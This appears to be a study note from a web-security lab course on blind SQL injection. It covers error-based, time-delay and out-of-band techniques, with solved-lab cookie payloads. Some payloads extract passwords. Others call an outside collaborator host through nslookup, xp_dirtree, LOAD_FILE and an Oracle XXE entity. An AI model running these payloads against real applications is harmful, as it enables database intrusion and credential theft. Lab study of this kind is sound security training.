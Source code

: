 Example of solving the lab
Cookie: TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int) --; session=ddjF2R5IenO8KIGjeqTicUFnEAd0drbD23

## Exploiting blind SQL injection by triggering time delays
If the application catches database errors when the SQL query is executed and handles them gracefully, there won't be any difference in the application's response

In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering time delays depending on whether an injected condition is true or false

The techniques for triggering a time delay are specific to the type of database being used. For example, on Microsoft SQL Server, you can use the following to test a condition and trigger a delay depending on whether the expression is true: 
```
'; IF (1=2) WAITFOR DELAY '0:0:10'--
'; IF (1=1) WAITFOR DELAY '0:0:10'--
```
- The first of these inputs does not trigger a delay, because the condition 1=2 is false.
- The second input triggers a delay of 10 seconds, because the condition 1=1 is true.

Using this technique, we can retrieve data by testing one character at a time: 
```
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```

Example of a solved lab:
```
TrackingId=x'||pg_sleep(10)--
```

## Exploiting blind SQL injection using out-of-band (OAST) techniques
The application's response doesn't depend on the query returning any data, a database error occurring, or on the time taken to execute the query. 
The query is executed in a separate thread and the servers does not wait for a result.

### Lab: Blind SQL injection with out-of-band interaction
There's a `Cookie: TrackingId` value of which is vlulnerable to sqli.
**The SQL query is executed asynchronously and has no effect on the application's response**

Tried postgres (most likely there should be a `;` sign after the single quote):
```bash
Cookie: TrackingId=iC8jyK4B3oh2zI5t'%3b copy (SELECT '') to program 'nslookup owofgq565l0jlsgypvahmi3cu30uokc9.oastify.com' -- ;
```
Tried microsoft:
```bash
Cookie: TrackingId=iC8jyK4B3oh2zI5t'%3b exec master..xp_dirtree '//owofgq565l0jlsgypvahmi3cu30uokc9.oastify.com/a'-- ;
```
Mysql:
```bash
Cookie: TrackingId=iC8jyK4B3oh2zI5t'%3b LOAD_FILE('\\\\85bzpaeqe593ucpiyfj1v2cw3n9ex6lv.oastify.com\\a') SELECT ... INTO OUTFILE '\\\\85bzpaeqe593ucpiyfj1v2cw3n9ex6lv.oastify.com\a' -- ;
```
Tried oracle:
```bash
Cookie: TrackingId=iC8jyK4B3oh2zI5t'%3b SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://owofgq565l0jlsgypvahmi3cu30uokc9.oastify.com/"> %remote;]>'),'/l') FROM dual -- ;
```
Tried oracle high priv:
```bash
Cookie: TrackingId=iC8jyK4B3oh2zI5t'%3b SELECT UTL_INADDR.get_host_address('85bzpaeqe593ucpiyfj1v2cw3n9ex6lv.oastify.com') -- ;
```